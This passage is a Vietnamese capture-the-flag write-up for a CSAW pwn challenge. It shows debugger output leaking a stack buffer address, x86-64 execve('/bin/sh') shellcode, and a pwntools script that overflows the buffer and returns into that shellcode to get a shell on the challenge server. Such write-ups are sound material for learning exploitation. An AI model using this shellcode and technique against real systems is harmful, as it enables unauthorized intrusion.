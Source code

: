 ```r
 R15  0x0
*RBP  0x7fffffffe0c0 —▸ 0x400b90 ◂— push   r15
*RSP  0x7fffffffe0a0 —▸ 0x400b90 ◂— push   r15
*RIP  0x400ae0 (main+314) ◂— call   0x400820
[────────────────────────────────────────────────────────────────────DISASM────────────────────────────────────────────────────────────────────]
 ► 0x400ae0 <main+314>    call   read@plt                      <0x400820>
        fd: 0x0
        buf: 0x7fffffffe0a0 —▸ 0x400b90 ◂— push   r15
        nbytes: 0x40
```

Như vậy ta thấy ngay địa chỉ của buffer khi đọc vào đã được in ra. Vậy thì exploit quá đơn giản rồi, chỉ cần đặt shellcode lên buffẻr và ghi đè return address bằng địa chỉ buffer thôi. Shellcode của mình có chỉnh sửa một chút ở instruction đầu tiên để nới rộng stack dành cho shellcode.

```r
   0:   48 83 ec 48             sub    rsp,0x48
   4:   48 31 d2                xor    rdx,rdx
   7:   48 bb ff 2f 62 69 6e    movabs rbx,0x68732f6e69622fff
   e:   2f 73 68 
  11:   48 c1 eb 08             shr    rbx,0x8
  15:   53                      push   rbx
  16:   48 89 e7                mov    rdi,rsp
  19:   48 31 c0                xor    rax,rax
  1c:   50                      push   rax
  1d:   57                      push   rdi
  1e:   48 89 e6                mov    rsi,rsp
  21:   b0 3b                   mov    al,0x3b
  23:   0f 05                   syscall
```

```python
from pwn import *

context.arch = 'amd64'

s = remote('pwn.chal.csaw.io', 8464)

raw_input('Exploit?')
shellcode = "\x48\x83\xEC\x48\x48\x31\xD2\x48\xBB\xFF\x2F\x62\x69\x6E\x2F\x73\x68\x48\xC1\xEB\x08\x53\x48\x89\xE7\x48\x31\xC0\x50\x57\x48\x89\xE6\xB0\x3B\x0F\x05"

s.recvuntil('[*]Location:')
leak_buffer = s.recvuntil('\n').strip()
print leak_buffer
leak_buffer = int(leak_buffer, 16)
s.recvuntil('[*]Command:')

print 'Shellcode is at:', hex(leak_buffer)

payload = ''
payload += shellcode
payload += '\x90' * (40 - len(shellcode))
payload += p64(leak_buffer)
s.sendline(payload)
s.interactive()
s.close()
```
